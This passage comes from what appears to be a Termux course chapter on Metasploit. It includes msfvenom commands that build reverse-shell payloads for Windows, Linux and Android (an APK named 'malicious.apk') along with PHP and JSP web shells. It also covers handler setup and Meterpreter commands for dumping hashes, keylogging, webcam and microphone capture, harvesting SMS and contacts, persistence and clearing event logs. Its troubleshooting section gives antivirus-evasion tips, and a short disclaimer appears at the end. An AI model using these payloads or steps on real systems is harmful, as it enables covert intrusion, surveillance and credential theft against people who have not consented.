| msi | .msi | Windows installer |
| vbs | .vbs | VBScript |
| bat | .bat | Batch file |
| ps1 | .ps1 | PowerShell script |
| hta | .hta | HTML Application |
| vba | - | VBA code for Office |

### 8. Linux Payload Formats

| Format | Extension | Description |
|--------|-----------|-------------|
| elf | - | Linux executable |
| elf-so | .so | Shared object |
| elf-bundle | - | Static binary |
| python | .py | Python script |
| perl | .pl | Perl script |
| bash | .sh | Bash script |
| java | .jar | Java JAR file |

### 9. Handler Configuration

```bash
# Basic Handler Setup
msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit -j  # Run in background

# Auto-run scripts
msf6 exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate

# Multi Handler (multiple connections)
msf6 exploit(multi/handler) > set ExitOnSession false
msf6 exploit(multi/handler) > exploit -j
```

### 10. Meterpreter Commands Reference

#### System Commands

```bash
sysinfo              # System information
getuid               # Current user
getpid               # Current process ID
ps                   # List processes
migrate <pid>        # Migrate to another process
execute -f <file>    # Execute a file
kill <pid>           # Kill a process
shutdown             # Shutdown system
reboot               # Reboot system
```

#### File System Commands

```bash
pwd                  # Current directory
ls                   # List files
cd <path>            # Change directory
cat <file>           # Read file
download <file>      # Download file from target
upload <file>        # Upload file to target
edit <file>          # Edit file
mkdir <dir>          # Create directory
rm <file>            # Delete file
rmdir <dir>          # Delete directory
search -f <pattern>  # Search for files
```

#### Network Commands

```bash
ipconfig             # Network interfaces
netstat              # Network connections
route                # Routing table
portfwd add -l <port> -p <target_port> -r <target_ip>  # Port forward
```

#### Privilege Commands

```bash
getsystem            # Try to get SYSTEM privileges
getprivs             # Get available privileges
rev2self             # Revert to original token
steal_token <pid>    # Steal token from process
drop_token           # Drop current token
```

#### Information Gathering

```bash
hashdump            # Dump password hashes
run post/windows/gather/enum_system     # System enumeration
run post/windows/gather/enum_network    # Network enumeration
run post/windows/gather/enum_applications  # Installed apps
run post/windows/gather/credentials/gpp # GPP passwords
```

#### Surveillance

```bash
screenshot           # Take screenshot
keyscan_start        # Start keylogger
keyscan_dump         # Dump keystrokes
keyscan_stop         # Stop keylogger
webcam_list          # List webcams
webcam_snap          # Take photo
record_mic           # Record microphone
```

#### Android Specific

```bash
dump_calllog         # Get call logs
dump_contacts        # Get contacts
dump_sms             # Get SMS messages
geolocate            # Get GPS location
wlan_geolocate       # WiFi-based location
```

#### Session Management

```bash
background           # Background current session
run persistence ...  # Install persistence
clearev              # Clear event logs
exit                 # Close session
```

---

## 📋 COMMANDS REFERENCE

### Msfconsole Commands

```bash
# Starting Metasploit
msfconsole                           # Start interactive console
msfconsole -q                        # Start without banner
msfconsole -x "command"              # Execute command on start
msfconsole -r script.rc              # Run resource script

# Navigation
help                                 # Show all commands
?                                    # Same as help
version                              # Show version
banner                               # Display banner

# Module Management
show exploits                        # List exploits
show payloads                        # List payloads
show auxiliary                       # List auxiliary modules
show encoders                        # List encoders
show post                            # List post modules
show nops                            # List NOP generators
show all                             # List all modules
show missing                         # Show missing modules

# Search Commands
search <keyword>                     # Basic search
search type:exploit <keyword>        # Search by type
search platform:windows <keyword>    # Search by platform
search cve:2021 <keyword>            # Search by CVE
search app:apache                    # Search by application
search name:<pattern>                # Search by name
search author:<name>                 # Search by author
search rank:excellent                # Search by reliability rank

# Module Selection
use <module_path>                    # Select module
use <number>                         # Select by search result number
info                                 # Show module info
info <module_path>                   # Show info without selecting

# Module Configuration
show options                         # Show module options
show advanced                        # Show advanced options
show evasion                         # Show evasion options
show targets                         # Show available targets
show payloads                        # Show compatible payloads

set <option> <value>                 # Set option
setg <option> <value>                # Set global option
unset <option>                       # Unset option
unsetg <option>                      # Unset global option
set PAYLOAD <payload>                # Set payload

# Execution
check                                # Check if vulnerable
exploit                              # Run exploit
run                                  # Same as exploit
exploit -j                           # Run as background job
exploit -z                           # Don't interact with session
rerun                                # Rerun exploit
recheck                              # Recheck vulnerability

# Session Management
sessions                             # List sessions
sessions -l                          # List sessions (verbose)
sessions -i <id>                     # Interact with session
sessions -k <id>                     # Kill session
sessions -K                          # Kill all sessions
sessions -u <id>                     # Upgrade shell to meterpreter
sessions -d <id>                     # Detach from session
jobs                                 # List background jobs
jobs -k <id>                         # Kill job

# Database Commands
db_status                            # Check database connection
db_connect                           # Connect to database
db_disconnect                        # Disconnect from database
workspace                            # List workspaces
workspace -a <name>                  # Add workspace
workspace -d <name>                  # Delete workspace
workspace <name>                     # Switch workspace
hosts                                # List hosts
hosts -S <filter>                    # Search hosts
services                             # List services
services -S <filter>                 # Search services
creds                                # List credentials
loot                                 # List loot
notes                                # List notes
vulns                                # List vulnerabilities
db_import <file>                     # Import scan results
db_export -f xml <file>              # Export database

# Resource Scripts
resource <file.rc>                   # Run resource script
makerc <file.rc>                     # Save commands to script

# Miscellaneous
back                                 # Go back from module
connect <host> <port>                # Connect to host
irb                                  # Open IRB shell
load <plugin>                        # Load plugin
unload <plugin>                      # Unload plugin
save                                 # Save current settings
spool <file>                         # Log output to file
```

### Msfvenom Commands

```bash
# List available options
msfvenom --list payloads             # List payloads
msfvenom --list encoders             # List encoders
msfvenom --list nops                 # List NOPs
msfvenom --list platforms            # List platforms
msfvenom --list archs                # List architectures
msfvenom --list formats              # List output formats
msfvenom -l payloads                 # Short form

# Payload Generation - Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f exe -o shell.exe
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.50 LPORT=4444 -f exe -o shell.exe
msfvenom -p windows/meterpreter/bind_tcp RHOST=192.168.1.100 LPORT=4444 -f exe -o bind.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f exe -o shell64.exe
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f exe -o cmd.exe

# Payload Generation - Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f elf -o shell.elf
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f elf -o shell64.elf

# Payload Generation - Android
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -o malicious.apk

# Payload Generation - Web
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f raw -o shell.php
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f raw -o shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f war -o shell.war
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.1.50 LPORT=4444 -f raw -o shell.sh

# Payload Generation - Scripting Languages
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f raw -o shell.py
msfvenom -p perl/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f raw -o shell.pl
msfvenom -p ruby/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f raw -o shell.rb

# Encoding Payloads
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -e x86/shikata_ga_nai -f exe -o encoded.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o encoded.exe

# Bad Characters
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -b '\x00\x0a\x0d' -f exe -o shell.exe

# Custom Template
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -x custom.exe -k -f exe -o embedded.exe

# Stageless Payloads
msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f exe -o stageless.exe

# Multiple Encoders
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -e x86/shikata_ga_nai -e x86/countdown -i 3 -f exe -o multiencoded.exe

# Get Payload Info
msfvenom -p windows/meterpreter/reverse_tcp --list-options

# Smaller Payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -s 500 -f exe -o small.exe
```

### Meterpreter Commands

```bash
# Core Commands
? / help                    # Show help
background                  # Background session
channel                     # Display channels
close                       # Close channel
exit / quit                 # Terminate session
interact                    # Interact with channel
irb                         # Open Ruby shell
load                        # Load extension
machine_id                  # Get machine ID
migrate                     # Migrate to process
quit                        # Quit session
run                         # Run meterpreter script
use                         # Use extension

# File System Commands
cat                         # Read file
cd                          # Change directory
checksum                    # Get file checksum
chmod                       # Change permissions
del                         # Delete file
dir                         # List directory
download                    # Download file
edit                        # Edit file
getwd / pwd                 # Current directory
ls                          # List files
mkdir                       # Create directory
mv                          # Move file
rm                          # Delete file
rmdir                       # Remove directory
search                      # Search files
show_mount                  # List mounts
upload                      # Upload file

# Networking Commands
arp                         # ARP cache
getproxy                    # Get proxy config
ifconfig / ipconfig         # Network interfaces
netstat                     # Network connections
portfwd                     # Port forwarding
resolve                     # Resolve hostname
route                       # Routing table

# System Commands
clearev                     # Clear event logs
drop_token                  # Drop token
execute                     # Execute command
getenv                      # Get environment
getpid                      # Get process ID
getpid                      # Process ID
getprivs                    # Get privileges
getsid                      # Get SID
getuid                      # Get user ID
kill                        # Kill process
localtime                   # Local time
pgrep                       # Grep processes
pkill                       # Kill by name
ps                          # List processes
reboot                      # Reboot system
reg                         # Registry commands
rev2self                    # Revert token
shell                       # Open shell
shutdown                    # Shutdown system
steal_token                 # Steal token
suspend                     # Suspend process
sysinfo                     # System info

# User Interface Commands
enumdesktops                # List desktops
getdesktop                  # Get current desktop
idletime                    # Idle time
keyscan_dump                # Dump keystrokes
keyscan_start               # Start keylogger
keyscan_stop                # Stop keylogger
screenshot                  # Screenshot
setdesktop                  # Set desktop
uictl                       # UI control

# Webcam Commands
record_mic                  # Record mic
webcam_chat                 # Video chat
webcam_list                 # List webcams
webcam_snap                 # Take photo
webcam_stream               # Stream video

# Elevate Commands
getsystem                   # Get SYSTEM
getsystem -h                # Help

# Password Database Commands
hashdump                    # Dump hashes
load kiwi                   # Load Mimikatz

# Android Commands
activity_start              # Start activity
check_root                 # Check root
dump_calllog               # Dump call log
dump_contacts              # Dump contacts
dump_sms                   # Dump SMS
geolocate                  # Get location
hide_app_icon              # Hide app icon
send_sms                   # Send SMS
set_audio_mode             # Set audio mode
sql_query                  # Query database
wakelock                   # Wake lock
wlan_geolocate             # WiFi location

# Post Modules
run post/windows/gather/hashdump
run post/windows/gather/enum_system
run post/windows/gather/enum_applications
run post/windows/gather/enum_network
run post/windows/gather/enum_shares
run post/windows/gather/credentials/gpp
run post/windows/gather/credentials/chrome
run post/windows/gather/credentials/mssql
run post/windows/gather/enum_av
run post/windows/gather/enum_patches
run post/multi/recon/local_exploit_suggester
run post/windows/manage/persistence
run post/windows/manage/enable_rdp
run post/multi/manage/autoroute
```

### Database Commands

```bash
# Database Setup
service postgresql start             # Start PostgreSQL
msfdb init                           # Initialize database
msfdb reinit                         # Reinitialize database
msfdb delete                         # Delete database

# Inside msfconsole
db_status                            # Check connection
db_connect <user>@<host>             # Connect to DB
db_disconnect                        # Disconnect

# Workspace Management
workspace                            # List workspaces
workspace -a <name>                  # Add workspace
workspace -d <name>                  # Delete workspace
workspace <name>                     # Switch workspace
workspace -h                         # Help

# Data Management
hosts                                # List hosts
hosts -S <filter>                    # Search hosts
hosts -d <ip>                        # Delete host
services                             # List services
services -S <filter>                 # Search services
services -p <port>                   # By port
services -u                          # Only up services
creds                                # List credentials
creds add user:<user> pass:<pass>    # Add credential
loot                                 # List loot
notes                                # List notes
vulns                                # List vulnerabilities

# Import/Export
db_import <file.xml>                 # Import scan
db_export -f xml backup.xml          # Export database
db_export -f pwdump backup.txt       # Export pwdump format

# Nmap Integration
db_nmap -sV -sC <target>             # Nmap scan to DB
nmap -sV -oX scan.xml <target>       # Export scan
db_import scan.xml                   # Import Nmap results
```

---

## 💻 PRACTICE EXERCISES

### Exercise 1: Metasploit Installation & Verification

```bash
# Task: Install Metasploit via Proot and verify installation

# Step 1: Update Termux
pkg update && pkg upgrade -y

# Step 2: Install proot-distro
pkg install proot-distro -y

# Step 3: Install Ubuntu
proot-distro install ubuntu

# Step 4: Login to Ubuntu
proot-distro login ubuntu

# Step 5: Update Ubuntu
apt update && apt upgrade -y

# Step 6: Install dependencies
apt install build-essential ruby-full git curl wget -y

# Step 7: Install Metasploit (using installer)
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod 755 msfinstall
./msfinstall

# Step 8: Verify installation
msfconsole --version

# Step 9: Start msfconsole
msfconsole -q

# Step 10: Check database status (will show not connected, which is OK)
db_status

# Expected: Version output and msfconsole prompt
```

### Exercise 2: Module Exploration

```bash
# Task: Explore Metasploit modules

# Step 1: Start msfconsole
msfconsole -q

# Step 2: List available exploits
show exploits

# Step 3: Search for SMB exploits
search type:exploit platform:windows smb

# Step 4: Get info on a specific exploit
info exploit/windows/smb/ms17_010_eternalblue

# Step 5: Search for auxiliary scanners
search type:auxiliary scanner

# Step 6: List payloads
show payloads

# Step 7: Search for meterpreter payloads
search meterpreter

# Step 8: List encoders
show encoders

# Step 9: Search for Android payloads
search platform:android

# Step 10: Exit
exit

# Expected: Understanding of module organization
```

### Exercise 3: Payload Generation

```bash
# Task: Generate various payloads with msfvenom

# Step 1: List available payloads
msfvenom --list payloads | head -30

# Step 2: Generate Windows reverse shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f exe -o windows_shell.exe

# Step 3: Generate Linux payload
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o linux_shell.elf

# Step 4: Generate Android payload
msfvenom -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o android_shell.apk

# Step 5: Generate PHP payload
msfvenom -p php/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw -o shell.php

# Step 6: Generate encoded payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o encoded_shell.exe

# Step 7: Verify payloads
ls -la *.exe *.elf *.apk *.php

# Expected: Multiple payload files created
```

### Exercise 4: Handler Setup

```bash
# Task: Configure a handler to receive connections

# Step 1: Start msfconsole
msfconsole -q

# Step 2: Use the handler module
use exploit/multi/handler

# Step 3: Set payload
set payload windows/meterpreter/reverse_tcp

# Step 4: Show options
show options

# Step 5: Set LHOST (your IP)
set LHOST 0.0.0.0

# Step 6: Set LPORT
set LPORT 4444

# Step 7: Verify settings
show options

# Step 8: Start handler (will wait for connections)
# exploit
# Note: This will wait indefinitely, press Ctrl+C to stop

# Expected: Handler configured and listening
```

### Exercise 5: Meterpreter Practice

```bash
# Task: Practice Meterpreter commands (in a simulated session)

# Note: This requires an active session, but practice commands:

# System Information
sysinfo
getuid
getpid

# Process Management
ps
migrate <pid>

# File System
pwd
ls
cd /tmp
download /etc/passwd

# Network
ipconfig
netstat
route

# Privilege
getsystem
getprivs

# Information Gathering
run post/windows/gather/enum_system
run post/windows/gather/hashdump

# Session Management
background

# List sessions
sessions -l

# Interact with session
sessions -i 1

# Expected: Familiarity with meterpreter commands
```

### Exercise 6: Search Techniques

```bash
# Task: Master the search command

# Start msfconsole
msfconsole -q

# Search by keyword
search ssh

# Search by type
search type:exploit ssh

# Search by platform
search platform:windows type:exploit

# Search by CVE
search cve:2021

# Search by specific CVE
search cve:2021-44228

# Search by application
search app:apache

# Combined search
search type:exploit platform:linux app:apache

# Search with name filter
search name:eternal

# Search by author
search author:hdm

# Search by reliability rank
search rank:excellent

# Expected: Proficiency in module searching
```

### Exercise 7: Post-Exploitation Modules

```bash
# Task: Explore post-exploitation capabilities

# Start msfconsole
msfconsole -q

# List post modules
show post

# Search for specific post modules
search post/windows/gather

# Info on a post module
info post/windows/gather/hashdump

# Note: To use post modules:
# use post/windows/gather/hashdump
# set SESSION 1
# run

# Useful post modules to know:
# post/windows/gather/enum_system
# post/windows/gather/enum_network
# post/windows/gather/credentials/gpp
# post/windows/manage/persistence
# post/multi/recon/local_exploit_suggester

# Expected: Knowledge of post-exploitation capabilities
```

### Exercise 8: Workspace Management

```bash
# Task: Practice database and workspace management

# Start msfconsole
msfconsole -q

# Check database status
db_status

# List workspaces
workspace

# Create new workspace
workspace -a pentest_project

# Switch workspace
workspace pentest_project

# Add another workspace
workspace -a test_project

# List workspaces
workspace

# Switch back to default
workspace default

# Delete a workspace
workspace -d test_project

# Expected: Understanding of workspace organization
```

---

## ⚠️ TROUBLESHOOTING

### Problem 1: Metasploit Won't Start

```bash
# Symptoms:
# - msfconsole command not found
# - Ruby errors on startup
# - Database connection errors

# Solution 1: Check if in Ubuntu proot
# You must be logged into Ubuntu:
proot-distro login ubuntu

# Solution 2: Verify installation
which msfconsole
msfconsole --version

# Solution 3: Check Ruby version
ruby --version
# Should be 2.7+

# Solution 4: Reinstall if needed
gem install msfconsole
# Or run full reinstallation
```

### Problem 2: Database Connection Failed

```bash
# Symptoms:
# - "Database not connected" error
# - Workspace commands not working

# Solution 1: Start PostgreSQL
service postgresql start

# Solution 2: Initialize database
msfdb init

# Solution 3: Reinitialize if corrupted
msfdb reinit

# Solution 4: Check PostgreSQL status
service postgresql status

# Solution 5: Manual database connection
msfconsole
msf6 > db_connect msf:msf@127.0.0.1/msf
```

### Problem 3: Payload Generation Errors

```bash
# Symptoms:
# - "Invalid payload" error
# - Missing template errors
# - Encoder not working

# Solution 1: Check payload syntax
msfvenom -p windows/meterpreter/reverse_tcp --list-options

# Solution 2: Verify payload exists
msfvenom --list payloads | grep meterpreter

# Solution 3: Check required options
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f exe

# Solution 4: Use correct format
msfvenom --list formats | grep exe

# Solution 5: Check encoder compatibility
msfvenom --list encoders
```

### Problem 4: Handler Not Receiving Connections

```bash
# Symptoms:
# - Handler starts but no session
# - Connection timeouts
# - Session dies immediately

# Solution 1: Verify LHOST is correct
# LHOST should be YOUR IP (attacker machine)
set LHOST 192.168.1.50  # Your IP

# Solution 2: Check firewall
# Ensure port is not blocked
netstat -tulpn | grep 4444

# Solution 3: Use 0.0.0.0 for all interfaces
set LHOST 0.0.0.0

# Solution 4: Verify payload matches handler
# Payload in msfvenom must match handler payload
# If payload: windows/meterpreter/reverse_tcp
# Handler must use: windows/meterpreter/reverse_tcp

# Solution 5: Check network connectivity
ping target_ip
```

### Problem 5: Session Dies Quickly

```bash
# Symptoms:
# - Session opens but closes immediately
# - "Meterpreter session died"

# Solution 1: Migrate immediately
# When session opens:
meterpreter > run post/windows/manage/migrate

# Solution 2: Use persistent handler
set ExitOnSession false
exploit -j

# Solution 3: Set AutoRunScript
set AutoRunScript post/windows/manage/migrate

# Solution 4: Try different payload
set payload windows/meterpreter/reverse_https
```

### Problem 6: Proot-Distro Issues

```bash
# Symptoms:
# - Can't install Ubuntu
# - Login fails
# - Commands not working in proot

# Solution 1: Update proot-distro
pkg update
pkg upgrade proot-distro

# Solution 2: Reinstall distribution
proot-distro remove ubuntu
proot-distro install ubuntu

# Solution 3: Clear cache
rm -rf ~/.proot-distro

# Solution 4: Check storage
df -h
# Ensure enough space available

# Solution 5: Use different distro
proot-distro list
proot-distro install debian
```

### Problem 7: Msfconsole Slow/Freezing

```bash
# Symptoms:
# - Takes forever to load
# - Commands hang
# - No response

# Solution 1: Disable banner
msfconsole -q

# Solution 2: Disable database (if not needed)
msfconsole -n

# Solution 3: Use simpler payload
set payload windows/shell/reverse_tcp

# Solution 4: Check memory
free -h
# Metasploit needs significant RAM

# Solution 5: Kill stuck processes
jobs -l
kill %1
```

### Problem 8: Android Payload Not Working

```bash
# Symptoms:
# - APK generated but doesn't connect
# - App crashes on target
# - No session created

# Solution 1: Check permissions
# Target device must allow unknown sources

# Solution 2: Verify network
# Target must be able to reach your IP

# Solution 3: Use correct architecture
# Check target device architecture
adb shell getprop ro.product.cpu.abi

# Solution 4: Try different payload
msfvenom -p android/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -o app.apk

# Solution 5: Check handler matches
set payload android/meterpreter/reverse_tcp
```

### Problem 9: Exploit Check Fails

```bash
# Symptoms:
# - Check command returns "unknown"
# - "The target is not exploitable"

# Solution 1: Verify target is up
set RHOSTS target_ip
ping target_ip

# Solution 2: Check port is open
nmap -p 445 target_ip

# Solution 3: Verify service version
nmap -sV -p 445 target_ip

# Solution 4: Try different exploit
search type:exploit platform:windows smb

# Solution 5: Run exploit anyway
# Sometimes check is unreliable
exploit
```

### Problem 10: Encoding Not Bypassing AV

```bash
# Symptoms:
# - Encoded payload still detected
# - Antivirus blocks execution

# Solution 1: Multiple encoding
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o payload.exe

# Solution 2: Use different encoder
msfvenom --list encoders
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -e x86/bloxor -f exe -o payload.exe

# Solution 3: Custom template
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -x legitimate.exe -k -f exe -o payload.exe

# Solution 4: Use stager
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f exe -o stager.exe

# Solution 5: Consider other tools
# For serious AV bypass, consider:
# - Veil Framework
# - Shellter
# - Custom crypters

# Note: Modern AV is very good at detecting Metasploit payloads
```

---

## 🎬 VIDEO ASSETS

### Thumbnail Concepts

**Option A: Professional Dark Theme**
```
┌────────────────────────────────────┐
│  [Dark Red/Black Background]       │
│                                    │
│   💀 METASPLOIT FRAMEWORK          │
│   ────────────────────────────     │
│   Complete Guide for Termux        │
│                                    │
│   🔥 msfconsole                    │
│   🔥 msfvenom                      │
│   🔥 Meterpreter                   │
│                                    │
│   [T3rmuxk1ng Logo]                │
└────────────────────────────────────┘
```

**Option B: Eye-Catching Warning Style**
```
┌────────────────────────────────────┐
│  ⚠️ METASPLOIT BASICS ⚠️          │
│                                    │
│  ┌──────────┐    ┌──────────┐     │
│  │ msfvenom │    │ payload  │     │
│  │   💣     │    │   🎯     │     │
│  └──────────┘    └──────────┘     │
│                                    │
│  Exploitation Complete Guide       │
│  Chapter 35 | T3rmuxk1ng           │
└────────────────────────────────────┘
```

**Option C: Terminal Aesthetic**
```
┌────────────────────────────────────┐
│  [Black Terminal Background]       │
│                                    │
│  msf6 > use exploit/multi/...      │
│  msf6 > set LHOST 192.168.1.50     │
│  msf6 > exploit                    │
│  [*] Meterpreter session opened    │
│                                    │
│  🎯 METASPLOIT MASTERY             │
│  Chapter 35                        │
│  [T3rmuxk1ng]                      │
└────────────────────────────────────┘
```

### Video Description Template

```markdown
💀 Metasploit Framework Basics | Complete Termux Guide | Chapter 35

🔥 In this video you'll learn:
• Metasploit Framework introduction
• Proot-based installation in Termux
• Msfconsole interface & commands
• Msfvenom payload generation
• Meterpreter post-exploitation
• Handler setup for connections
• Windows & Android payload creation
• Encoding & evasion techniques

⏱️ Timestamps:
0:00 - Introduction
1:00 - Metasploit Introduction
4:00 - Termux + Metasploit Challenges
6:00 - Proot Installation
10:00 - Metasploit Installation
14:00 - Architecture Overview
17:00 - Msfconsole Basics
21:00 - Search Command Deep Dive
23:30 - Exploitation Workflow
26:30 - Payloads & Msfvenom
30:00 - Handler Setup
33:00 - Meterpreter Basics
37:00 - Post-Exploitation Modules
40:00 - Common Exploits Demo
44:00 - Android Payloads
47:00 - Encoding & Evasion
49:30 - Database Usage
52:00 - Best Practices & Summary

📥 Installation Commands:
pkg update && pkg upgrade -y
pkg install proot-distro -y
proot-distro install ubuntu
proot-distro login ubuntu
apt update && apt upgrade -y
# Follow video for complete installation

📝 Key Commands from Video:
msfconsole                    # Start console
search type:exploit platform:windows smb    # Search exploits
use exploit/windows/smb/ms17_010_eternalblue  # Select exploit
set RHOSTS target_ip          # Set target
set LHOST your_ip             # Set your IP
exploit                       # Run exploit
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f exe -o shell.exe

📚 Full Course Playlist:
[PLAYLIST LINK]

📱 Follow T3rmuxk1ng:
• YouTube: @T3rmuxk1ng
• Telegram: [LINK]
• GitHub: [LINK]

#Metasploit #Termux #MetasploitFramework #EthicalHacking #Msfconsole #Msfvenom #Meterpreter #TermuxCourse #T3rmuxk1ng #PenetrationTesting #CyberSecurity

---
⚠️ DISCLAIMER: This video is for EDUCATIONAL PURPOSES ONLY. Use Metasploit only on systems you own or have explicit permission to test. Unauthorized access to computer systems is illegal. The creator is not responsible for misuse of this information.
```

### Tags List

```
metasploit, metasploit framework, metasploit tutorial, msfconsole, 
msfvenom, meterpreter, metasploit termux, metasploit hindi, 
metasploit tutorial hindi, ethical hacking, penetration testing, 
cyber security, hacking tools, exploit development, payload generation, 
windows exploit, android payload, reverse shell, bind shell, 
metasploit basics, metasploit commands, termux metasploit install,
proot metasploit, ubuntu metasploit, t3rmuxk1ng, termux course,
hindi tutorial, hacking course, security tools, vulnerability exploitation
```

### Hashtags

```
#Metasploit #MetasploitFramework #Msfconsole #Msfvenom #Meterpreter 
#EthicalHacking #PenetrationTesting #CyberSecurity #Termux 
#TermuxCourse #T3rmuxk1ng #HackingTools #PayloadGeneration 
#WindowsExploit #AndroidPayload #ReverseShell #HindiTutorial 
#MetasploitTutorial #LearnHacking #SecurityTools
```

---

## 📚 ADDITIONAL RESOURCES

### Official Resources

| Resource | Link |
|----------|------|
| Metasploit Official | https://www.metasploit.com/ |
| Metasploit Documentation | https://docs.metasploit.com/ |
| Rapid7 GitHub | https://github.com/rapid7/metasploit-framework |
| Metasploit Unleashed | https://www.offensive-security.com/metasploit-unleashed/ |

### Learning Resources

| Resource | Description |
|----------|-------------|
| Metasploit Unleashed | Free comprehensive course |
| Rapid7 Blog | Updates and tutorials |
| Metasploit Help | Run `help` in msfconsole |
| Module Info | Run `info <module>` |

### Useful Tools

| Tool | Purpose |
|------|---------|
| Veil Framework | AV evasion payloads |
| Shellter | PE injector |
| Armitage | GUI for Metasploit |
| Cobalt Strike | Advanced C2 |

### Module Ranks (Reliability)

| Rank | Description |
|------|-------------|
| Manual | Requires manual configuration |
| Low | Unreliable |
| Average | Normal reliability |
| Good | Good reliability |
| Excellent | Highest reliability |

---

## ✅ CHAPTER CHECKLIST

Before moving to Chapter 36, verify:

- [ ] Proot-distro installed and configured
- [ ] Ubuntu installed in proot
- [ ] Metasploit successfully installed
- [ ] msfconsole starts without errors
- [ ] Understand module types (exploits, payloads, etc.)
- [ ] Can search for modules effectively
- [ ] Know how to set options (RHOSTS, LHOST, payload)
- [ ] Can generate payloads with msfvenom
- [ ] Know how to set up a handler
- [ ] Familiar with meterpreter basic commands
- [ ] Understand exploitation workflow
- [ ] Know about encoding payloads
- [ ] Understand legal/ethical boundaries

---

## 🎯 NEXT CHAPTER PREVIEW

**Chapter 36: PhoneSploit & ADB Tools**

- ADB (Android Debug Bridge) introduction
- PhoneSploit installation and setup
- ADB commands for device management
- Remote device exploitation techniques
- Post-exploitation with ADB
- Screen mirroring and control
- File transfer with ADB
- ADB over network
- Security considerations

---

**Chapter Complete! 🎉**

*Created by T3rmuxk1ng | Termux Full Course*

---

# 🚀 POWER UPGRADE - NEXT LEVEL CONTENT

---

## 🎮 INTERACTIVE QUIZ - Test Your Knowledge!

### Metasploit Framework Mastery Quiz

**Q1: What is the primary interface for Metasploit?**
- A) msfgui
- B) msfconsole ✓
- C) msfcli
- D) armitage

**Q2: Which command searches for exploits in msfconsole?**
- A) find
- B) search ✓
- C) lookup
- D) query

**Q3: What does "RHOSTS" stand for in Metasploit?**
- A) Remote Host System
- B) Remote Hosts ✓
- C) Router Host
- D) Return Host

**Q4: Which tool generates standalone payloads?**
- A) msfconsole
- B) msfvenom ✓
- C) msfencode
- D) msfpayload

**Q5: What type of payload provides advanced post-exploitation capabilities?**
- A) shell
- B) cmd
- C) meterpreter ✓
- D) vnc

**Q6: What module type would you use for scanning?**
- A) exploit
- B) payload
- C) auxiliary ✓
- D) post

**Q7: Which flag sets a global option in msfconsole?**
- A) set
- B) setg ✓
- C) gset
- D) config

**Q8: What is the command to list active sessions?**
- A) sessions -l ✓
- B) show sessions
- C) list sessions
- D) sessions list

**Q9: Which encoder is most popular for AV evasion?**
- A) x86/countdown
- B) x86/shikata_ga_nai ✓
- C) x86/call4_dword_xor
- D) x86/fnstenv_mov

**Q10: What does the "check" command do in an exploit module?**
- A) Checks for updates
- B) Verifies if target is vulnerable ✓
- C) Checks syntax
- D) Validates payload

**Q11: Which payload type connects back to attacker?**
- A) bind_tcp
- B) reverse_tcp ✓
- C) listen_tcp
- D) connect_tcp

**Q12: What is the purpose of "exploit/multi/handler"?**
- A) Exploit multiple targets
- B) Catch reverse shell connections ✓
- C) Handle multiple exploits
- D) Multi-stage handler

---

## 🎮 INTERACTIVE QUIZ

Test your Metasploit knowledge! Answers are hidden below each question.

### Question 1
**What is Metasploit Framework?**
<details>
<summary>Click to reveal answer</summary>

Metasploit Framework is an open-source penetration testing framework that provides tools for developing, testing, and executing exploits against target systems. It includes exploits, payloads, auxiliary modules, and post-exploitation tools.
</details>

### Question 2
**What is the difference between an exploit and a payload?**
<details>
<summary>Click to reveal answer</summary>

